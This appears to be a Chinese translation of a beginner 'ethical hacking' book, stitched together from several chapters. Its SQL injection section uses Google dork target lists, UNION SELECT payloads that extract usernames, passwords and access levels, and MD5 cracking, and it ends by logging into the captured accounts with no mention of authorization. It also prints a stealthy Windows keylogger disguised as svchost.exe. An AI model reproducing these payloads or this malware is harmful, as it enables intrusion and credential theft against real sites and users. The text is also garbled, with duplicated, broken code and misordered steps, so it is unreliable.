

### sqlmap

任何组织都可以用来检测 SQL 注入攻击的最佳工具之一是 `sqlmap`。你可以从 `http://sqlmap.org/` 下载此工具。如果你的系统中安装了 Kali 发行版，你就不需要安装该工具；你可以在发行版的数据库评估（Database Assessment）部分找到它。

一旦打开 `sqlmap`，你就可以从存在 SQL 注入的网站获取头请求。一旦获取了这些信息，你就需要运行以下代码：

```
/sqlmap.py --headers="User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:25.0"
```

```
Gecko/20100101 Firefox/25.0" --cookie="security=low;
PHPSESSID=oikbs8qcic2omf5nd09kihsm7" -u
http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#-level=5 risk=3 -p id --suffix="BR" -v3
```

该工具还将测试输入数据库的不同变量，并检查该变量的漏洞性。更多信息，请查看下方的截图：



### sqlninja

Kali Linux 发行版支持 `sqlninja` 工具。

### jSQL Injection

`jSQL` 注入是一种用 Java 编写的 SQL 注入攻击类型。该脚本用于自动化 SQL 注入。



## 快速提示

如果你想保护任何 Web 应用免受 SQL 注入攻击，必须确保遵守以下原则：

- 始终对传递到任何数据库的用户信息加上引号。

- 确保每个变量在传递到应用程序之前都经过验证和清理。

- 绝不要在检查之前允许任何用户输入进入数据库。

- 数据绝不应未经检查就通过应用程序的 GUI。

# 第 28 章

## 如何使用 SQL 注入工具进行黑客

SQL 注入是黑客用来暴露系统漏洞的最简单且最常用的工具之一。破解者使用此工具来利用系统漏洞。本章仅包含有关 SQL 注入工具的基本信息以及你如何使用它。

当你使用 SQL 注入攻入网站时，你将知道系统是否存在漏洞，因为你可以获取用户名、密码以及管理账户的访问权限。当 LulzSec 和 Anonymous 攻入 Sony PlayStation 网络并获取超过 1,000 名用户的个人信息时，他们使用了这种工具的一种稍微高级的形式。你可以通过浏览器或 Internet 连接在任何设备上利用这种黑客攻击。

## 第 1 步

你应该识别你想要使用的网站或应用程序。如果你想测试一个网站且不确定它是否有漏洞，可以使用 Google。如果你想在 Google 上获取一个漏洞网站列表，你应该在搜索栏中输入 `:allinurl:dockhere:`。这将为你提供以下漏洞网站列表：

- `trainers.php?id=`

- `article.php?id=`

- `play.old.php?id=`

- `staff.php?id=`

- `games.php?id=`

- `newsDetail.php?id=`

- `product.php?id=`

- `product-item.php?id=`

- `news_view.php?id=`

- `humor.php?id=`

- `humour.php?id=`

- `opions.php?id=`

- `spr.php?id=`

- `pages.php?id=`

- `prod_detail.php?id=`

- `viewphoto.php?id=`

- `view.php?id-`

- `website.php?id=`

- `hosting_info.php?id=`

- `detail.php?id=`

- `publications.php?id=`

- `releases.php?id=`

- `ray.php?id=`

- `produtit.php?id=`

- `pop.php?id=`

- `shopping.php?id=`


- `post.php?id=`
- `section.php?id=`
- `theme.php?id=`
- `page.php?id=`
- `ages.php?id=`
- `review.php?id=`
- `announce.php?id=`
- `participant.php?id=`
- `download.php?id=`
- `main.php?id=`
- `profile_view.php?id=`
- `faq.php?id=`
- `fellows.php?id=`
- `club.php?id=`
- `clubpage.php?id=`
- `viewphoto.php?id=`
- `curriculum.php?id=`
- `top10.php?id=`
- `person.php?id=`
- `game.php?id=`
- `read.php?id=`
- `newsone.php?id=`
- `title.php?id=`

此列表并不是详尽的，而且非常短。你可以在互联网上找到完整的列表。

## 第 2 步

当你决定选择一个漏洞网站进行测试时，你应该在末尾添加一个单引号。例如，如果你选择了网站 `www.site.com/news.php?id=2`，你应该在 URL 的末尾添加一个引号。它将变成这样：`www.site.com/news.php?id=2'`

## 第 3 步

如果你在页面上看到错误填充的错误，你就能确认该网站存在漏洞。

## 第 4 步

一旦你打开 `sqlmap`，你就可以从存在 SQL 注入的网站获取头请求。一旦获取了信息后，它将看起来这样：`www.site.com/news.php?id=2'`

## 第 5 步

该工具还将测试输入数据库的不同变量，并检查该变量的漏洞性。更多信息，请查看下方的截图：

将 `group_concat(table_name)` 替换为 `group_concat(column_name)`，并将 `from information_schema.tables where table_schema=database--` 替换为 `from information_schema.columns where table_name=CHAR(YOUR ASCII)` HERE—

URL 示例下：

`www.site.com/news.php?id=-2 union select 1, group_concat(column_name), 3, 4, 5, 6, 7, 8 from information_schema.columns where table_name=CHAR(97,100,109,105,110)--`

你应该记住，根据表名称的不同，你使用的 ASCII 数字也会所不同。表名将被替换为列名。常见的列包括 `userid`, `user`, `username`, `password`, `email`, `accesslevel`, `first` 和 `lastname`。

# 第 9 步

你正在寻找能够提供测试网站漏洞所需的数据或信息。从上面提取的表中，对你最有用的列将 `userid/user/username` 和 `password`。你还需要关于访问权限的信息，以确保不需要登录多次就能找到谁是管理员。

管理员的访问权限总是最高的。或者，管理员的名称通常是“admin”。你现在需要更改之前使用的语法，因为你只想提取用户名、密码和访问权限。将 `group_concat(column_name)` 语法替换为 `group_concat(username, 0x3a, password, 0x3a, accesslevel)`。如果你想添加更多列或替换它们，请确保每列之间都有‘0x3a’。

将 `the information_schema.columns where table_name=CHAR(YOUR ASCII)--` 替换为 `TABLE NAME --`，其中 `TABLE NAME` 是获取值的表名。

URL 示例如下：

`www.site.com/news.php?id=-2 1, group_concat(username, 0x3a, password, 0x3a, accesslevel), 3, 4, 5, 6, 7, 8 from admin--`

现在，你应该通过以下方式列出列名：

`james:shakespeare:0,ryan:mozart:1,admin:bach:2,superadmin:debussy:3`, 或任何类似的内容。你必须记住当前的 `GROUP_CONCAT` 语法将以以下方式显示结果：对于 `username, 0x3a, password, 0x3a, accesslevel`：

`USERNAME1:PASSWORD1:ACCESSLEVEL1,USERNAME2:PASSWORD`，其中用户名、密码和访问权限根据数字对应于一个用户。

语句中的 `0x3a` 是分号；每个逗号分隔每个用户。密码通常是字母和数字的随机字符串，称为 MD5 哈希。这是经过加密的。

# 第 10 步

接下来，如果你想登录，就需要解密密码。你可以通过在线或使用某些软件来实现。使用软件会更好，因为你可以针对不同的方法长期使用它。如果你警惕软件中存在任何恶意软件并不想使用它，可以尝试替代方法，但有时如果你不使用它，可能就找不到密码。如果你习惯使用软件，可以通过此链接下载 Abel and Cain 软件：`http://www.oxid.it/cain.html`。可以随时使用 Google 来帮助你设置这个 MD5。如果你想使用网站，请点击以下链接：`http://www.md5decrypter.co.uk`。

# 第 11 步

最后，登录新获得的账户并检查网络上的其他漏洞。

## 第 29 章

## 渗透测试

渗透测试是许多公司使用的过程或工具，用于识别或减少网络或组织中的安全违露。该组织可以聘佣专业人士，由其尝试黑入网络和系统，以识别需要修复的漏洞或缺陷。在公司执行渗透测试之前，将与道德黑客签署协议，规定以下参数：

- 何时应该执行测试
- 源系统的 IP 地址应该是什么
- 允许黑客渗透哪些字段

渗透测试始终由专业黑客进行，他们将使用开源和商业工具、执行手动检查并自动化某些工具。由于此测试的目标是识别系统所有的漏洞，因此对黑客使用的工具没有限制。

## 渗透测试的类型

网络或系统上可以进行五种渗透测试。这些包括黑盒、灰盒、白盒、外部渗透测试和内部渗透测试。

### 黑盒

在黑盒测试期间，道德黑客对于其试图渗透的组织的网络或基础设施没有任何初始信息。因此，黑客将尝试不同的方法来了解该组织的网络或基础设施。

### 灰盒

在这种类型的测试中，道德黑客对目标组织的网络和基础设施有一些信息。例如，黑客可能拥有域名服务器。

### 白盒

在白盒测试中，道德黑客拥有其试图渗透的目标组织的网络和基础设施所需的所有信息。

### 外部渗透测试

在外部渗透测试期间，黑客重点关注网络和基础设施。

### 内部渗透测试

在这种类型的测试中，黑客已经在网络内部。渗透测试可能会导致许多问题，包括数据丢失、服务器崩溃和系统功能故障。

让我们来看一个开发键盘记录器的 C 程序。通过这个程序，你可以拦截用户按下的按键，并将这些按键存储在日志文件中。

```c
#include<windows.h>

#include<stdio.h>

#include<winuser.h>

#include<windowsx.h>

#define BUFSIZE 80

int test_key(void);

int create_key(char);

int get_keys(void);

int main(void)
{
    HWND stealth; //创建一个隐藏窗口

    AllocConsole();

    stealth=FindWindowA("ConsoleClass",NULL);

    ShowWindow(stealth,0);

    int test,create;

test=test_key();//检查按键是否可以打开
```
```c
if (test==2)// 创建按键
{
    char *path="c:\\%windir%\\svchost.exe";//文件需要存储的路径
    create=create_key(path);
}

int t=get_keys();

return t;
}
```
```c
int get_keys(void)
{
    short character;

    while(1)
    {
        sleep(10);//将 CPU 使用率降低到 0%
        for(character=8;character<=222;character++)
        {
            if(GetAsyncKeyState(character)==-32767)
        }
    }
}
```


让我们来看一个开发键盘记录器的 C 程序。通过这个程序，你可以拦截用户按下的按键，并将这些按键存储在日志文件中。

```c
#include<windows.h>
#include<stdio.h>
#include<winuser.h>
#include<windowsx.h>
#define BUFSIZE 80
int test_key(void);
int create_key(char);
int get_keys(void);
int main(void)
{
    HWND stealth; //创建一个隐藏窗口
    AllocConsole();
    stealth=FindWindowA("ConsoleClass",NULL);
    ShowWindow(stealth,0);
    int test,create;
    test=test_key();//检查按键是否可以打开
    if (test==2)// 创建按键
    {
        char *path="c:\\%windir%\\svchost.exe";//文件需要存储的路径
        create=create_key(path);
    }
    int t=get_keys();
    return t;
}
```

```c
int get_keys(void)
{
    short character;
    while(1)
    {
        sleep(10);//将 CPU 使用率降低到 0%
        for(character=8;character<=222;character++)
        {
            if(GetAsyncKeyState(character)==-32767)
        }
    }
}
```

```c
FILE *file;
file=fopen("svchost.log","a+");
if(file==NULL)
{
    return 1;
}
if(file!=NULL)
{
    if((character>=39)&&(character<=64))
    {
        fputc(character,file);
        fclose(file);
        break;
    }
    else if((character>64)&&(character<91))
    {
        character+=32;
        fputc(character,file);
    }
    fclose(file);
    break;
}
else
{
switch(character)
{
    case VK_SPACE:
    fputc(' ',file);
    fclose(file);
    break;
    case VK_SHIFT:
    fputs("[SHIFT]",file);
    fclose(file);
    break;
    case VK_RETURN:
    fputs("\n[ENTER]",file);
    fclose(file);
    break;
    case VK_BACK:
    fputs("[BACKSPACE]",file);
    fclose(file);
    break;
    case VK_TAB:
    fputs("[TAB]",file);
    fclose(file);
    break;
    case VK_CONTROL:
    fputs("[CTRL]",file);
    fclose(file);
    break;
    case VK_DELETE:
    fputs("[DEL]",file);
    fclose(file);
    break;
    case VK_OEM_1:
    fputs("[::]",file);
    fclose(file);
    break;
    case VK_OEM_2:
    fputs("[/?]",file);
    fclose(file);
    break;
    case VK_OEM_3:
    fputs("[^~]",file);
    fclose(file);
    break;
    case VK_OEM_4:
    fputs("[{ ]]",file);
    fclose(file);
    break;
    case VK_OEM_5:
    fputs("[\]]",file);
    fclose(file);
    break;
    case VK_OEM_6:
    fputs("[ ] ",file);
    fclose(file);
    break;
    case VK_OEM_7:
    fputs("\\");
    fputc('2',file);
    fclose(file);
    break;
    case VK_NUMPAD3:
    fputc('3',file);
    fclose(file);
    break;
    case VK_NUMPAD4:
    fputc('4',file);
    fclose(file);
    break;
    case VK_NUMPAD5:
    fputc('5',file);
    fclose(file);
    break;
    case VK_NUMPAD6:
    fputc('6',file);
    fclose(file);
    break;
    case VK_NUMPAD7:
    fputc('7',file);
    close(file);
    break;
    case VK_NUMPAD8:
    fputc('8',file);
    close(file);
    break;
    case VK_NUMPAD9:
    fputc('9',file);
    close(file);
    break;
    case VK_CAPITAL:
    puts("CAPS LOCK]",file);
    close(file);
    break;
    default:
    fclose(file);
    break;
}
}
}
}
return EXIT_SUCCESS;
}
```

```c
int test_key(void)
{
int check;
HKEY hKey;
char path[BUFSIZE];
DWORD buf_length=BUFSIZE;
int reg_key;
reg_key=RegOpenKeyEx(HKEY_LOCAL_MACHINE,"SOFTWARE\\Microsoft");
if(reg_key!=0)
{
  check=1;
  return check;
}
reg_key=RegQueryValueEx(hKey,"svchost",NULL,NULL,path,&buf_length);
if((reg_key!=0)|(buf_length>BUFSIZE)){
  check=2;
}
if(reg_key==0)
{
  check=0;
  RegCloseKey(hKey);
}
}
```


`case VK_CONTROL:`

`fputs("[CTRL]",file);`

`fclose(file);`

`break;`

`case VK_DELETE:`

`fputs("[DEL]",file);`

`fclose(file);`

`break;`

`case VK_OEM_1:`

```c
fputs("[::]",file);
fclose(file);
break;
```

`case VK_OEM_2:`

`fputs("[/?]",file);`

`fclose(file);`

`break;`

`case VK_OEM_3:`

`fputs("[^~]",file);`

`fclose(file);`

`break;`

`case VK_OEM_4:`

`fputs("[{ ]]",file);`

`fclose(file);`

`break;`

`case VK_OEM_5:`

`fputs("[\]]",file);`

```c
fclose(file);
break;
case VK_OEM_6:
fputs("[ ] ",file);
fclose(file);
break;
case VK_OEM_7:
fputs("\\");
```

```c
fputc('2',file);
fclose(file);
break;
case VK_NUMPAD3:
fputc('3',file);
fclose(file);
break;
case VK_NUMPAD4:
fputc('4',file);
fclose(file);
break;
case VK_NUMPAD5:
fputc('5',file);
fclose(file);
break;
case VK_NUMPAD6:
fputc('6',file);
```

```c
break;
case VK_NUMPAD7:
fputc('7',file);
close(file);
break;
case VK_NUMPAD8:
fputc('8',file);
close(file);
break;
case VK_NUMPAD9:
fputc('9',file);
close(file);
break;
case VK_CAPITAL:
puts("CAPS LOCK]",file);
close(file);
break;
default:
```

```c
fclose(file);
break;
}
}
}
}
}
return EXIT_SUCCESS;
}
```

```c
int test_key(void)
{
int check;
HKEY hKey;
char path[BUFSIZE];
DWORD buf_length=BUFSIZE;
int reg_key;
reg_key=RegOpenKeyEx(HKEY_LOCAL_MACHINE,"SOFTWARE\\Microsoft
```

```c
if(reg_key!=0)
{
  check=1;
  return check;
}
reg_key=RegQueryValueEx(hKey,"svchost",NULL,NULL,path,&buf_length);
if((reg_key!=0)|(buf_length>BUFSIZE)){
  check=2;
}
if(reg_key==0)
{
  check=0;
  RegCloseKey(hKey);
}
```

具备此能力。当你运行任何脚本时，你需要声明一些变量来存储信息。Perl 中的变量与 Linux 中的变量相同，因此你应该像在 Linux 中一样声明它们，即在标签前加上一个“`$`”符号。

将以下代码输入文本编辑器中：

```perl
#!/usr/bin/perl
print "Welcome back, user!\n";
print "Which website do you want to use to hack?\n";
$name = <STDIN>;
chomp($name);
print "Thank you, $name is one of the websites I use too!\n";
```

让我们检查脚本中的每一行：

- 第一行将指示系统在执行脚本时，应该使用一个特定的脚本解释器。
- 第二行将在屏幕上打印一条语句。
- 第三行将在屏幕上打印该语句。
- 第四行将允许用户输入变量。
- 在代码的第五行中，`chomp` 函数将移除用户在回答问题时可能输入的换行符。
- 代码的最后一行将根据用户的输入打印你的响应。

## 第 6

你现在应该保存这个新脚本，并像之前处理脚本那样更改它的权限。最后，运行以下代码执行脚本：`./secondperlscript`。

## 第 32 章

## 使用 PHP 进行黑客

在本章中，你将学习如何使用 PHP 进行系统分析并收集信息以纠正任何问题。要编写本章中的程序，你需要以下内容：

- 文本编辑器
- 任何浏览器
- 带有 PHP 的 Apache Web 服务器

### 什么是 PHP？

PHP 是一种运行在服务器上的脚本语言。你在 PHP 中编写的代码将只在服务器上执行。客户端看不到代码，这就是为什么它是测试组织内部服务器或网络安全性的完美工具。

### 查找 IP 地址

在书中，我们将 IP 地址称为“yourip”。如果你在安装了 Apache 的同一系统上使用浏览器，你应该将 IP 地址替换为本地主机或“127.0.0.1”；否则，你需要知道本地 IP 地址是什么。为了找到它，你应该执行以下命令：

```bash
ifconfig | grep 'inet addr:'
```

IP 地址是跟在不包含地址“127.0.0.1”的所在行中，“inet addr:” 之后的数字字符串。

### 安装 Apache

如果你的系统中尚未安装 Apache，你应该运行以下命令进行安装：

```bash
sudo apt-get install apache2
```

当你运行命令时，系统会询问你是否要继续该过程，此时你应该选择“yes”。

## 确保 Apache 正常

打开浏览器并导航到链接：`http://yourip`。这应该带你进入 Apache2 Ubuntu 默认页面。你可以确认 Apache 是否存在。

### 安装 PHP

如果你想安装 PHP，应该运行以下命令：`sudo apt-get install php5 libapache2-mod-php5`。运行此命令时，系统会询问你是否要继续该过程；选择“yes”。

一旦安装 PHP，你需要重启 Apache 以确保 PHP 正常工作。运行以下命令重启 Apache：`sudo service apache2 restart`

## 确保 PHP 正常

创建一个名为“test.php”的文件并将其移动到 public 文件夹。你需要运行一些代码来确保 PHP 安装正确。你可以使用以下示例，它会在带有 PHP 版本的页面上返回“Hello User!”。

```php
//+--------------------------------------------------------------------
<?php
$version=phpversion(); // 将 $version 设置当前 PHP 版本
echo 'version: '.$version; // 在页面上打印 "version: x.x.x"
echo '<br/>'; // 在页面上打印换行
echo 'Hello User!'; // 在页面上打印 "Hello User!"
?>
//+----------------------------------------------------------------+
```


现在，打开浏览器并导航到以下地址：`http://yourip/test.php`。在输出窗口中，你将看到版本号和“Hello User!”

## 第 33 章

### 如何通过道德黑客攻击赚钱

现在你已经识别了可以进行道德黑客攻击的不同平台，并知道在执行这些测试时需要注意什么，让我们看看如何利用这些知识赚钱。好消息是，如果你负责任，你就可以从道德黑客攻击中获利。

有很多黑客已经从 PayPal、Yahoo 和 Google 等各种主机中赚了大量资金，其中包括青少年黑客。这项业务是合法的，只要他们愿意，每个负责任的黑客都能赚到足够的钱维持生活。这是因为这些网站遭受了无休止的网络攻击。

在一切之前，你应该记住黑客客和白黑客的概念。如果你按照规则办事，你就可以合法地通过黑客技术赚到足够生活的钱。

## 漏洞赏金业务

漏洞猎寻是大多数年轻黑客参与的业务，通过这种工作，他们正在赚大量的钱。黑客会在 Facebook、Twitter 和 Google 等大型网站上进行窥探。

有很多黑客已经从 PayPal、Yahoo 和 Google 等各种主机中赚了大量资金，其中包括青少年黑客。这项业务是合法的，每个负责任的黑客都能赚到足够的钱维持生活。

一些公司包括：
- BitGo: $100
- Dropbox: $100
- Facebook: $500
- FastMail: $100
- Pinterest: $50
- Magento: $100
- Microsoft: $500
- Paypal: $100
- Spotify: $250
- Stripe: $200
- Tumblr: $100
- Western Union: $100

## 政府资助

就像个人公司一样，政府也担心被攻击。因此，他们可能会决定资助黑客并要求他们监控并确保系统不会被攻击。

## 在公司上班

作为一名白黑客，你会被许多公司雇佣执行各种任务。公司聘佣白帽黑客的许多原因之一是为了测试网站的安全性。黑客将检查系统和网络，查看是否存在漏洞。

## 第 34 章

## 成为专业黑客的技巧

在入侵系统时，业余爱好者很容易犯许多错误。无论是否专业，这些错误都可能对他们的黑客结果造成破坏性影响。本章将识别业余爱好者常犯的一些致命致命错误。

## 缺乏书面批准

如果你想入侵一个系统，从高层管理或客户那里获得批准至关重要。这是你的“免死牌”。你需要获得以下文件以作为批准：

- 一份详尽的计划，其中提到了由于攻击将受影响的系统
- 由获得授权的决策者对你的计划进行签字，同意相关条款和条件，以避免在出现任何问题时承担法律责任
- 协议的原始副本

这方面没有例外。

## 寻找所有漏洞

系统中存在许多漏洞——有些是众所周知的，而另一些并不显而易见。黑客不可能找到系统中的所有漏洞。你不应该保证能找到系统中的所有漏洞，否则，你将开启一项永远无法完成的任务。因此，你必须确保自己遵循以下准则：

- 始终保持现实主义。
- 使用有效的工具。
- 更好地理解系统并提高你的技术。
- 假设你可以消除所有漏洞。

计算机永远不是 100% 安全的，事实上，永远不存在完全安全的时候。因此，作为一个黑客，你不可能阻止所有的安全漏洞。在职业黑客生涯中，你需要记住以下几点：

- 始终遵循最佳实践。
- 加固并保护你的系统。
- 应用尽可能多的应对措施。

## 仅执行一次

黑客帮助你获取安全状态的快照。每天都会出现许多新的威胁和漏洞；因此，执行必要的测试以确保你的系统能够跟上出现的新威胁。

## 假装无所不知

任何从事计算机或信息安全的人都不是无所不知。跟上不断出现的所有软件版本、硬件型号和新技术基本上是不可能的，更不用说所有相关的安全漏洞了。专业黑客知道自己的局限性，他们知道自己并非完美；但他们确实知道去哪里寻找答案（先尝试 Google）。

## 始终从黑客的角度看问题

思考外部黑客如何攻击你的网络和计算机。你可能需要一些内部信息来合理地测试某些内容，但要尽量限制这种行为。获得新鲜视角，跳出思维定框。研究黑客的行为和常见的攻击手段，这样你就知道该测试什么。

## 不使用正确的工具

如果没有完成任务的正确工具，几乎无法完成任何工作——至少在不让自己疯掉的情况下！下载本书书中以及附录 A 列表中提到的免费工具。如果你有意向和预算，就购买商业工具。没有一种安全工具是万能的，要随着时间的推移建立你的工具箱并熟悉你的工具。这将为你节省大量的精力，你也可以通过你的结果给他人留下深刻印象。

## 在错误的时间进行攻击

失去工作或客户的最佳方式之一，是在所有人都在使用生产系统时运行黑客攻击。墨菲定律会降临，并在绝对最糟糕的时间关掉关键系统。确保你知道执行测试的最佳时机。那可能在半夜。（成为一名专业黑客绝不是易事！）。这可以作为使用某些能够自动化不同黑客任务的安全工具和技术的合理理由。

## 外包测试

外包很棒，但你必须参与其中。在不跟进、不了解进展情况的情况下，将安全测试的控制权完全交给第三方是一个坏主意。通过躲着他们，你除了你的外包供应商之外对谁也帮不上忙。你应该始终参与测试。

## 如何迎合管理层

### 展示组织的脆弱性

如果你正试图为某公司担任专业黑客，请向公司展示组织对其信息系统的依赖程度有多高。创建“如果怎样”场景（类似于业务影响评估）来展示可能发生什么，并看看组织在没有计算机、网络和数据的情况下可以维持多久。你应该询问高层经理，如果没有了 IT 人员和计算机，他们将如何应对。

向他们展示黑客攻击的真实案例证言，包括恶意软件、物理安全和社交工程问题，但要保持积极态度。不要以恐惧、不确定性和恐慌（FUD）这种负面方式来处理这件事。你应该向他们通报你对公司安全措施所做的任何更改。你还应该记录行业状况，并据此告知客户。寻找与相似业务或行业相关的故事，以便他们产生共鸣。收集杂志和报纸文章。

### Google 是寻找你这里需要的一切的绝佳工具

向管理层展示组织拥有黑客想要的东西，并务必指出由于攻击造成的潜在成本。这些可能包括：

- 错失的机会成本
- 知识产权损失
- 责任问题
- 法律成本
- 生产力损失
- 清理时间和成本
- 修复受损声誉的成本

**保持适应和灵活**
你应该做好被拒绝和怀疑的准备——这种情况经常发生，特别是来自 CFO 和 CEO 等经理，他们通常与 IT 脱节。你必须记住，安全是一个长期过程，无法在一次评估中完成。从有限的资源和工具开始，然后随着时间的推移逐步建立计划。

### 参与业务

你应该理解业务并学习其运作方式。识别关键人物并研究涉及的政治因素。你务必做到以下点：

- 参加会议并让自己被认识；这有助于证明你关注业务。
- 成为一个想要为业务贡献的人。
- 了解你的对手。再次，使用“知己知彼”的心态；如果你了解自己在应对什么，获得支持会更容易。

### 始终与他们的水平交流

始终用通俗易懂的语言与他们交流。不要使用术语来解释概念；这打不了任何人。始终从业务的角度谈论问题。这是一项需要发展的技能，因为你必须让他们理解你具体在做什么以及这将如何帮助他们的公司。

大多数情况下，IT 和安全专业人员一开始说话就会让高层经理失去兴趣。这里一个兆字节，那里一个静态检查；到处都是数据包；数据库的这部分数据——谈论这些是非常糟糕的主意。你应该尝试将每个安全问题与日常业务流程和其他职能联系起来。

### 展示你努力的价值

这是关键时刻。如果你能向人们展示你在做什么以及它如何改善他们的业务，你就能与团队保持良好的关系。

- 3. 建议你将高层提出的质疑、反对和担忧视为对更多细节的请求。你应该找到答案并证明你专业的黑客价值。

## 结论

再次感谢你购买本书。我诚挚地希望你在学习道德黑客的过程中，这本书对你大有裨益。

道德黑客，也称为白帽黑客或渗透测试，无疑是一项职业。道德黑客并不针对组织或个人工作，而是为了帮助他们理解其系统和网络中的漏洞。这本书应该作为一份指南，帮助你学习关于道德黑客的所有重要知识。

希望你已经收集了所需的所有信息。感谢，并祝一切。

## 参考文献

- [Hacking, E. (2019). Fingerprinting | Ethical Hacking | TechnoGb | TechnoGb. 获取自 https://technogb.com/fingerprinting-ethical-hacking-technogb/]
- [Ethical Hacking Fingerprinting. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_finge
- [Ethical Hacking Process. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_proce
- [Ethical Hacking Reconnaissance. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_recor
- [Ethical Hacking Hacker Types. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_hack
- [Ethical Hacking Overview. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_over
- [Ethical Hacking Tools. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_tools
- [Lazari, C. (2019). Ethical Hacking Reconnaissance Plan: Active Footprinting - Chris Lazari. 获取自 https://chrislazari.com/ethical-hacking-reconnaissance-plan-active-footprinting/
- [Phases of Hacking | Ethical Hacking. (2019). 获取自 https://www.greycampus.com/opencampus/ethical-hacking/phases-of-hacking
- [Lazari, C. (2019). Ethical Hacking Reconnaissance Plan: Passive Footprinting - Chris Lazari. 获取自 https://chrislazari.com/ethical-hacking-passive-footprinting/
- [Czumak, M. (2019). Passive Reconnaissance - Security Sift. 获取自 https://www.securitysift.com/passive-reconnaissance/
- [Automated tools for passive and active reconnaissance – Divya Aradhya. (2019). 获取自 http://www.divyaaradhya.com/2017/01/15/automated-tools-for-passive-and-active-reconnaissance/
- [What is Scanning? Ethical Hacking, (2019). 获取自 https://www.greycampus.com/opencampus/ethical-hacking/what-is-scanning
- [Ethical Hacking Sniffing Tools. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_sniffing
- [Ethical Hacking ARP Poisoning. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_arp
- [Ethical Hacking Exploitation. (2019). 获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_exploit
- [Ethical Hacking Reconnaissance in Ethical Hacking pdf - Ethical Hacking Reconnaissance in Ethical Hacking (17331) | Wisdom Jobs. (2019). 获取自 https://www.wisdomjobs.com/e-university/ethical-hacking-tutorial-1188/ethical-hacking-reconnaissance-17331.html

# 道德黑客

道德黑客的完整技巧与技巧
作者：JOE GRANT

### 引言

黑客行为，无论是道德的还是其他的，听起来都是一个复杂的过程，你必须学习世界上存在的每种代码。对于一个黑客领域的新手来说，你可能觉得需要关于黑客软件、编程语言、算法和语法的大量先验知识，以及许多只有天才才能破解的复杂元素。然而，你可能不需要成为天才，也不需要在某种程度上掌握所有内容。本书介绍了完成道德黑客攻击（也称为渗透测试）的简单步骤和技巧。

你不需要先前的黑客知识就能理解书中教授的技能。在书中，你将学习如何使用现代黑客工具并解释这些工具的结果，包括 Backtrack Linux、`Nmap`、`MetaGoofil`、`dig`、`Nessus`、`Google`、`Renaissance`、`Metasploit`、`Netcat` 和 Hacker Defender rootkit。你将学习如何使用这些工具来挖掘进攻安全系统。

虽然没有任何基础知识的人起初觉得这本书具有挑战，但书中解释的步骤非常简单，针对初学者。写这本书的目的是教新手执行道德黑客攻击的简单步骤和技巧。本书介绍了黑客的基础知识，让你能够破解薄弱的安全系统。你不仅将学习道德黑客涉及的内容，还将学习如何轻松地进行渗透测试。

道德黑客帮助指出计算机安全系统中的漏洞。与黑帽和灰帽黑客不同，道德黑客帮助组织。

阅读愉快！

## 第一章

### 什么是道德黑客？

